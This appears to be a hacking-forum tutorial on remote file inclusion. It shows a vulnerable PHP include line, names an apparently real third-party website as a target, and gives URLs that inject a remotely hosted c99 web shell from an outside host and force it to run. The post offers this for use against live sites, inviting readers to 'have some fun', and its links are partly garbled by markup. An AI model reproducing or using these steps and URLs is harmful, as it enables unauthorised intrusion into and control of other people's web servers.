 OK, so part one,
a website is built of code but sometime people get extremely lazy or they are just very new to website design and dont know what there doing, when they make the website they usually include the code,

$page = $_GET['page'];
> include("".$page.".html");_

When the page loads it usually blindely includes anything that is injected into ("".$page.".html"); this is good for us that means we can inject a remote file.

PART 2. so now google around or look for a rfi vulnerable website here is an example of one
[URL](URL.md)http://artmoment.de//pixlie/pixlie.php?root[/URL]=
see where it says root= this is where you upload your shell you can either upload one on to a website or use it or you can just use some of these,


[URL="http://www.hackerlar.net/"]www.hackerlar.net[/URL]
so now that you have your shells you wanna add them to the end of the url it should look somethin like this

[URL="http://artmoment.de//pixlie/pixlie.php?root=http://hackerlar.net/c99.txt"]http://artmoment.de//pixlie/pixlie.p...ar.net/c99.txt[/URL]


so now make sure you add a question mark at the end of the url so it looks like this
[URL](URL.md)http://artmoment.de//pixlie/pixlie.php?root[/URL][URL="http://artmoment.de//pixlie/pixlie.php?root"]=[/URL][URL="http://www.hackerlar.net/c99.txt"] - c99shell[/URL]?

This will force it to run the shell so that you can go have some fun!

Max Credits to Casi!